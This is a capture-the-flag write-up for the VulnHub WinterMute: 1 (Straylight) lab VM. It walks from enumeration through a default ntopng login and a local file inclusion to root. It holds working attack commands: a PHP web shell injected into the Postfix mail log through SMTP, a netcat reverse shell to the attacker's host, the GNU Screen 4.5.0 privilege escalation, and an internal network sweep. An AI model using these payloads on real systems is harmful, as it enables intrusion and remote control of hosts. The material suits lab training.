







VulnHub WinterMute: 1 (Straylight)
Author: Hades - LeeCyberSec
VM Details
| Name | WinterMute: 1 |
|---|---|
| Date release | 5 Jul 2018 |
| Author | creosote |
| Series | WinterMute |
Information Gathering
Openning Services
To scan all open ports in WinterMute I run nmap with -p- options and enum service at each port.
┌──(Hades㉿192.168.56.110)-[3.4:37.2]~/scripting
└─$ sudo ./enum/all.sh 192.168.56.102
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 192.168.56.102 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//
[+] Openning ports: 25,80,3000
### Services Enumeration ############################
nmap -sC -sV -Pn 192.168.56.102 -p25,80,3000
<snip>
PORT STATE SERVICE VERSION
25/tcp open smtp Postfix smtpd
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
| ssl-cert: Subject: commonName=straylight
| Subject Alternative Name: DNS:straylight
| Not valid before: 2018-05-12T18:08:02
|_Not valid after: 2028-05-09T18:08:02
|_ssl-date: TLS randomness does not represent time
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Night City
3000/tcp open hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_ Logs: submit
| hadoop-tasktracker-info:
|_ Logs: submit
| http-title: Welcome to ntopng
|_Requested resource was /lua/login.lua?referer=/
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:0E:1B:0D (Oracle VirtualBox virtual NIC)
Service Info: Host: straylight
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.67 seconds
Postfix smtpd
### SMTP Enumeration (25) ############################
<snip>
PORT STATE SERVICE
25/tcp open smtp
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
| smtp-enum-users:
|_ Method RCPT returned a unhandled status code.
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
| smtp-vuln-cve2010-4344:
|_ The SMTP server is not Exim: NOT VULNERABLE
MAC Address: 08:00:27:0E:1B:0D (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
Using nc to access to smtp service and run some common commands. In here, we can sent a mail without authentication.
┌──(Hades㉿192.168.56.110)-[4.2:41.3]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
vrfy root
252 2.0.0 root
mail from: "root@localhost"
250 2.1.0 Ok
rcpt to: "root"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
root
.
250 2.0.0 Ok: queued as 3674F5516
Apache httpd 2.4.25
Brower to the web application and get some messages in hone page, after that, the website redirect to www.html and sent another messages.

[+] Files and directories
gobuster dir -k -u http://192.168.56.102:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/manual (Status: 301) [Size: 317] [--> http://192.168.56.102/manual/]
/freeside (Status: 301) [Size: 319] [--> http://192.168.56.102/freeside/]
/server-status (Status: 403) [Size: 302]
<snip>
[+] All URLs
curl -k http://192.168.56.102:80 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
<link rel="stylesheet" href="gl.css">
<title>Night City</title>
Apache Hadoop ntopng

At ntopng Web GUI, I know that the default login is admin:admin. Try it and get admin page.

Go to http://192.168.56.102:3000/lua/flows_stats.lua, there is a url /turing-bolo/.

There are content at file case.log via url http://192.168.56.102/turing-bolo/bolo.php?bolo=case
Local File Inclusion
Web application auto add .log after the provided value.
I find some log in the Kali Machine to trying access it in the server with payload bolo=../../../../../../var/log/apt/history
┌──(Hades㉿192.168.56.110)-[4.6:23.8]~/scripting
└─$ find / -name *.log 2> /dev/null
<snip>
/var/log/apt/history.log
/var/log/dpkg.log

Foothold
Postfix mail log file backdoor
I used Postfix SMTP and sent a email with php backdoor
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
Go to Postfix mail log file /var/log/mail
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Getting reverse shell
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
sudo nc -nvlp 4444

Privilege escalation
Upgrade shell
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
^Z
stty raw -echo; fg
Binaries That AutoElevate
www-data@straylight:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
<snip>
www-data@straylight:/tmp$
GNU Screen 4.5.0 exploit
┌──(Hades㉿192.168.56.110)-[1.4:23.7]~
└─$ searchsploit screen 4.5.0
--------------------------------------------------------- ---------------------------------
Exploit Title | Path
--------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC) | linux/local/41152.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
At /tmp in the unix machine, I create 2 file libhax.c rootshell.c and run poc.sh to get root.
bash poc.sh 2> /dev/null

Post Exploitation
Enum network, there are 2 interfaces enp0s3 and enp0s8
root@straylight:/tmp# ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.56.102 netmask 255.255.255.0 broadcast 192.168.56.255
inet6 fe80::a00:27ff:fe0e:1b0d prefixlen 64 scopeid 0x20<link>
ether 08:00:27:0e:1b:0d txqueuelen 1000 (Ethernet)
RX packets 498352 bytes 66009694 (62.9 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 408318 bytes 173600084 (165.5 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.107.106 netmask 255.255.255.0 broadcast 192.168.107.255
inet6 fe80::a00:27ff:fec0:db47 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:c0:db:47 txqueuelen 1000 (Ethernet)
RX packets 244 bytes 34210 (33.4 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 45 bytes 7450 (7.2 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
<snip>
root@straylight:/tmp# bash pingSweeping.sh 192.168.107
192.168.107.2
192.168.107.1
192.168.107.106
192.168.107.107
Scan open port in 192.168.107.107 with nc.
root@straylight:/tmp# nc -nv -w 1 -z 192.168.107.107 1-65535
(UNKNOWN) [192.168.107.107] 34483 (?) open
(UNKNOWN) [192.168.107.107] 8080 (http-alt) open
(UNKNOWN) [192.168.107.107] 8009 (?) open